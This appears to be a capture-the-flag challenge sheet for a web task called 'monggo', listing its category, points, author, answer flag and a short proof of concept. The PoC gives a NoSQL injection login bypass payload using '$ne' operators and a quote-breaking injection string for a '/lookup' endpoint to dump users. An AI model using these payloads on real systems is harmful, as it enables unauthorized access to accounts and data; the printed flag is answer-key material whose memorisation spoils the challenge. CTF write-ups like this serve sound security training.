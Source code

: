 # Challenge Name:
monggo

## Description:
monggo mas, ini webnya

## Category:
Web

## File:
./monggo.zip

## Flag:
`STORM{monggo_no_sql_nya_0efc1da0e122}`

## Points:
500

## Author:
k.eii

## PoC
NoSQL Injection auth bypass, json post
```{"username":{"$ne": "x"},"password":{"$ne": "x"}}```
retrieve users on /lookup/{payload}
```' || 'a' == 'a```